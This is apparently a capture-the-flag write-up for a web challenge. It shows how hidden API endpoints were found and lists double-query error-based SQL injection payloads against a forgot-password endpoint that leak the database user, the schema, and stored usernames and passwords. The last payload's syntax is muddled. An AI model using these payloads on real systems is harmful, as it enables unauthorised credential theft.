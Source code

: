 # Double Trouble

## Preliminary Analysis

Probably my hardest challenge but once you understand what the vulnerability is it becomes pretty manageable.

If you read the description of the challenge carefully, you should realize that there are some hidden API endpoints and hidden routes which were shipped into production. 

Bruteforce penetration testing is a pretty hard problem when it comes to actually web exploitation. Finding the endpoint entirely depends on the pentester's skills and wordlist which he/she uses for exploitation.

Here I will be using gobuster with dirb's wordlists with a twist

![gobuster commands](./gobuster.png)

Adding the api at the end of the URL is necessary to find the API endpoint. You can find /api/login\_user and /api/create\_user by inspecting the action fields of the login and create_user forms.

After finding the /api/forgot\_password endpoint, we should now find the vulnerability associated with this endpoint. 

## Vulnerability

Since everything in the website was sending POST requests from the forms to the website, this might also be a form related vulnerability. Now the most common vulnerability when it comes to taking form input in web exploitation is SQL Injection. Now the title of the challenge comes into picture where Double query attacks are a famous type of error based SQL Injection attack.

Double Query attacks are commonly used when the system is not returning any data back to the website which means that `UNION SELECT` can't be used. Once you realise that the vulnerability is a Double Query SQL Injection, exploiting the endpoint becomes very trivial as almost all Double Query attacks are based on exploiting the integrity error messages. 

## Exploit

Usually forgot password forms ask for either an Email-ID or a username. So sending a post request with the following query and you will be able to find that this API indeed accepts only the email field. Then following the standard procedure of slowly exploiting the DB to get the info and credentials follows.

Sending the following requests in order


+ `"sridhardked@gmail.com' AND (SELECT 1 FROM(SELECT COUNT(*),CONCAT((SELECT user()), FLOOR(RAND()*2)) AS a FROM information_schema.tables GROUP BY a)x);"`

  Leaks the user under which the DB is running
 
+ `"sridhardked@gmail.com' AND (SELECT 1 FROM(SELECT COUNT(*),CONCAT((SELECT database()), FLOOR(RAND()*2)) AS a FROM information_schema.tables GROUP BY a)x);"`
  
   Leaks the name of the DB

+ `"sridhardked@gmail.com' AND (SELECT 1 FROM(SELECT COUNT(*),CONCAT((SELECT column_name FROM information_schema.columns WHERE table_name='users' LIMIT 0,1), FLOOR(RAND()*5)) AS a FROM information_schema.tables GROUP BY a)x)-- -"`
 
  Leaks the First Column name in the DB

+ `"sridhardked@gmail.com' AND (SELECT 1 FROM(SELECT COUNT(*),CONCAT((SELECT column_name FROM information_schema.columns WHERE table_name='users' LIMIT 1,1), FLOOR(RAND()*5)) AS a FROM information_schema.tables GROUP BY a)x)-- -"`

  Leaks the second column name in the DB
  
  .
  .
  .
  
+ `"sridhardked@gmail.com' AND SELECT * FROM users WHERE id = '1' AND (SELECT 1 FROM(SELECT COUNT(*),CONCAT((SELECT MID(username,1,63) FROM users LIMIT 0,1),':',(SELECT MID(password,1,63) FROM users LIMIT 0,1),':',(SELECT MID(password,1,63) FROM users LIMIT 2,1), FLOOR(RAND()*5)) AS a FROM information_schema.tables GROUP BY a)x)-- -"`

  After getting all the column names, they can be used to get the username and passwords of all the users in the table using the mechanism
  
  The whole exploit is a group of at least 25-30 queries to leak titbits about the database slowly.

  I suggest making a MySQL database and trying out double query exploits and understanding how they work locally before testing on any server or service.

## Resources

+ [Link 1](https://www.adversify.co.uk/exploiting-double-query-sql-injections/)
+ [Link 2](https://www.infosecinstitute.com/resources/application-security/double-query-injections-demystified/?ref=adversify.co.uk#gref)
+ [Link 3](https://www.youtube.com/watch?v=NWVJ2b0D1r8)
